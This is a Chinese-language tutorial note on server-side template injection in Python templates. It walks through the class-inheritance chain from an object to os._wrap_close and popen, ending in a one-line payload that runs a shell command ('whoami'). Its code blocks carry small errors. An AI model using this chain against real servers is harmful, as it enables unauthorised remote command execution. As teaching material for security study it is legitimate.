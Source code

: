 ​                    [2.SSTI模板注入总结-CSDN博客](https://blog.csdn.net/Manuffer/article/details/120739989?ops_request_misc=&request_id=&biz_id=102&utm_term=SSTI&utm_medium=distribute.pc_search_result.none-task-blog-2~all~sobaiduweb~default-0-120739989.142^v100^pc_search_result_base4&spm=1018.2226.3001.4187)

​                    3.[SSTI漏洞详解-CSDN博客](https://blog.csdn.net/apple_74953689/article/details/140721321?ops_request_misc=%7B%22request%5Fid%22%3A%223145705D-6786-467D-98D5-EB37BF3A7091%22%2C%22scm%22%3A%2220140713.130102334..%22%7D&request_id=3145705D-6786-467D-98D5-EB37BF3A7091&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~top_positive~default-1-140721321-null-null.142^v100^pc_search_result_base4&utm_term=SSTI&spm=1018.2226.3001.4187)

​		    4.[超详细SSTI模板注入漏洞原理讲解_ssti注入-CSDN博客](https://blog.csdn.net/qq_61955196/article/details/132237648?ops_request_misc=%7B%22request%5Fid%22%3A%223145705D-6786-467D-98D5-EB37BF3A7091%22%2C%22scm%22%3A%2220140713.130102334..%22%7D&request_id=3145705D-6786-467D-98D5-EB37BF3A7091&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~top_positive~default-2-132237648-null-null.142^v100^pc_search_result_base4&utm_term=SSTI&spm=1018.2226.3001.4187)

SSTI漏洞利用基本流程

获取当前类 -> 获取其object基类 -> 获取所有子类 -> 获取可执行shell命令的子类 -> 获取可执行shell命令的方法 -> 执行shell命令

### 概念详解

#### 继承（寻找能够rce的子类）

先找到obj，再从obj找rce

##### 找object

```php
	class A:pass
	class B(A):pass
	class C(B):pass
	class D(c):pass
//可以看到我们创建了4个类，其中的B类继承了A类，C、D类继承了B类,如果我们在这创建一个C的对象c，那么我们就可以通过__class__魔术方法来找到它的当前类
	c = C()
	print(c.__class)  //这个函数执行将会输出当前类C
	print(c.__class__.__base__)//这个函数将会找到C的父类B，以此类推，再加一个__base__可以找B的父类
    //从代码上看再之后A类上面应该是没有类了，但是其实所有的类都时object类的子类，当我们创建一个类而没有显式地指定它继承的父类时，这个类就会默认继承object类，
    print(c.__class__.__base__.__base__.__base__)//此时为c->C->B->A(A无指定继承父类）->object
    //当然这样自然很麻烦，于是出现了一个一步到位的东西
    print(c.__class__.__mro__[3])
    //这样就会以数组形式输出所有的父类当加上[3]时代表输出第三级父类，即object  
```

##### 从obj找rce类

```php
__subclasses__#可以用这个来获取所有子类，同样用数组形式给出
#一般rce普遍寻找的都是<class 'os._wrap_close'>类，位置一般在139个左右，大致去找找，不会差距太远
print(c.__class__.__mro__[3].__subclasses__()[138])
//之后就是命令的初始化和进入命令执行变量，这里我们一般选择popen
__init__//初始化
__globals__//返回全局变量
__globals__['popen']//从全局变量中选出popen
__globals__['popen']('whoami').read()//在popen中执行whoami命令，但是执行命令≠有输出，因此还要加上.read()来读取输出
//最终变成
print(c.__class__.__mro__[3].__subclasses__()[138].__init__.__globals__['popen']('whoami').read())
```
